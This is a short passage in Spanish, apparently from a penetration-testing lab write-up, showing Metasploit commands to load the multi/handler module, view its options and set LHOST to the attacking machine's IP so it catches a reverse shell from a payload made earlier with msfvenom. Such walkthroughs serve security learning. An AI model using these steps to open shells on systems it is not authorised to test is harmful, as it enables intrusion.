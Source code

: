 


Buscamos el módulo
```
search /multi/handler
```

<p align="center">
    <img src="../img/Pasted_image_20241231142227.png" width="500">
</p>


Miramos las opciones
```
show options
```

<p align="center">
    <img src="../img/Pasted_image_20241231142340.png" width="500">
</p>


Cambiamos lo necesario, que como en el exploit creado con `msfvenom`, ya pusimos el puerto 4444, solo tenemos que cambiar el LHOST y poner la IP de la máquina atacante.
```
set LHOST 192.168.1.28
```
